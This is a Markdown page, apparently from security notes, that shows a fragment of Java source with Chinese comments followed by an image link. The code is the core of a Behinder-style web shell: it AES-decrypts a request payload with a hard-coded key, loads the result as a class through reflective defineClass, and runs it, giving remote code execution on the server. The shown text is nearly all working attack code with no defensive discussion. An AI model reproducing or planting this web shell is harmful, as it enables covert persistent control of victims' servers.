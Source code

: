 ```java
                        HttpSession session = request.getSession();
                        pageContext.put("request", request);
                        pageContext.put("response", response);
                        pageContext.put("session", session);
                        // 这里判断payload是否为空 因为在springboot2.6.3测试时request.getReader().readLine()可以获取到而采取拼接的话为空字符串
                        String payload = request.getReader().readLine();

//                        System.out.println(payload);
                        // 冰蝎逻辑
                        String k = "efac9bf6b802b5b9"; // m@nb666
                        session.putValue("u", k);
                        Cipher c = Cipher.getInstance("AES");
                        c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
                        Method method = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
                        method.setAccessible(true);
                        byte[] evilclass_byte = c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(payload));
                        Class evilclass = (Class) method.invoke(Thread.currentThread().getContextClassLoader(), evilclass_byte, 0, evilclass_byte.length);
                        evilclass.newInstance().equals(pageContext);
                    }
                } else {
                    response.resetBuffer();
                    response.getWriter().println("error");
                    response.flushBuffer();
                    response.finishResponse();
                }
            }
        } catch (Exception e) {
//            e.printStackTrace();
        }
    }
}
```

![image-20240831100751125](assets/image-20240831100751125.png)
